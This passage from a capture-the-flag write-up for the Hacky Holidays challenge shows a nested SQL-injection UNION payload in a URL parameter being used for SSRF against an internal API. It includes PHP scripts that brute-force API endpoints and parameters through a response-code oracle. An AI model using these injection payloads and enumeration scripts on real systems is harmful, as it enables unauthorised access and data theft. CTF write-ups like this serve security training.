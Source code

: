 
### Enumerating the api

now that we have an ssrf let's fetch the api, 
```
$ curl https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-jdh34k%27union%20select%20(select%20%22%27%20union%20select%20%27a%27,%27b%27,%27../api/%27--%20-%22),2,3%20as%20id%20limit%200,1--%20-
[...]
<img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcLyIsImF1dGgiOiIwNWE3ZTcwOGE1ZjNkYTc2NTA2MDIzMDQ3NjI4ODI5ZCJ9">
[...]

$ curl https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcLyIsImF1dGgiOiIwNWE3ZTcwOGE1ZjNkYTc2NTA2MDIzMDQ3NjI4ODI5ZCJ9
Invalid content type detected
```
very odd message, based on this and the very previous request to `/api/c`, we only have response codes, and if response code is 200, message is `Invalid content type detected`, looks like a good oracle to exfiltrate data semi blindly

we can enumerate the api endpoints, based on response codes with help from api documentation, i made a small php script to do that
```
$ cat brute1.php
<?php
$a = file_get_contents("https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-3dir42%27%20union%20select%20(select%20%22%27%20union%20select%201,2,%27../api/".$argv[1]."%27--%20-%22)%20as%20id,1,1%20from%20album%20limit%200,1--%20-");
preg_match("/<img class=\"img\-responsive\" src=\"(.*?)\">/", $a,$ma);
$b= file_get_contents("https://hackyholidays.h1ctf.com".$ma[1]);
if (!preg_match("/Received\: 404/", $b)) echo $argv[1]."\n";

$ for i in $(cat ./wordlist.txt); do php brute1.php $i; done
user
ping
benchmark
sleep
```

enumerating the parameters for user endpoint (there was not much in the other ones)
```
$ cat brute2.php
<?php
$a = file_get_contents("https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-3dir42%27%20union%20select%20(select%20%22%27%20union%20select%201,2,%27../api/user?".$argv[1]."%27--%20-%22)%20as%20id,1,1%20from%20album%20limit%200,1--%20-");
preg_match("/<img class=\"img\-responsive\" src=\"(.*?)\">/", $a,$ma);
$b= file_get_contents("https://hackyholidays.h1ctf.com".$ma[1]);
if (!preg_match("/Received\: 400/", $b)) echo $argv[1]."\n";

$ for i in $(cat ./wordlist.txt); do php brute2.php $i; done
username
password
0
```
